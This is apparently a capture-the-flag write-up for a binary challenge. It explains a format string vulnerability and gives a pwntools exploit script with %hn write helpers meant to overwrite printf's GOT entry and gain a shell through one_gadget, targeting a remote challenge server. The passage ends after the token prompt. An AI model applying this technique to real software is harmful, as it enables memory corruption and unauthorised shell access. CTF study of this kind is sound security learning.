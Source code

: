 ```c
		for (int i = 0; i < 4; ++i)
		{
			key[i] = buf[i];
		}
		for (int i = 0; i < 5; ++i)
		{
			key[6 + i] = buf[4 + i];
		}
		key[4] = '1';
		key[5] = '1';//4,5 must be length, which is always 11
		key[11] = 0;
		clear_stack();
		if (f(key) == 1)
			puts(buf);
	}
	return 0;
}
```

The vulnerability is format string vulnerability, when error message is printed if an invalid command is given. We can rewrite got table entry of `printf`, then hijack the `rip` and get shell using `one_gadget`

```python
from pwn import *

g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process(["./silkroad_2.elf", "flag{test}"])
	gdb.attach(sh)
else:
	sh = remote("82.196.10.106", 47299)

def hn(pos, val):
	assert val < 0x10000
	if val == 0:
		return "%" + str(pos) + "$hn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def cont_shoot(poses, vals, prev_size = 0):
	assert len(poses) == len(vals)
	size = len(poses)
	ret = ""
	i = 0
	cur_size = prev_size
	next_overflow = ((prev_size + 0xffff) / 0x10000) * 0x10000
	while i < size:
		assert next_overflow >= cur_size
		num = next_overflow - cur_size + vals[i]
		if num < 0x10000:
			ret += hn(poses[i], num)
			next_overflow += 0x10000
		else:
			num = vals[i] - (cur_size - (next_overflow - 0x10000))
			assert num >= 0
			ret += hn(poses[i], num)
		cur_size += num
		i += 1
	return ret

sh.recvuntil("Enter your token: ")
```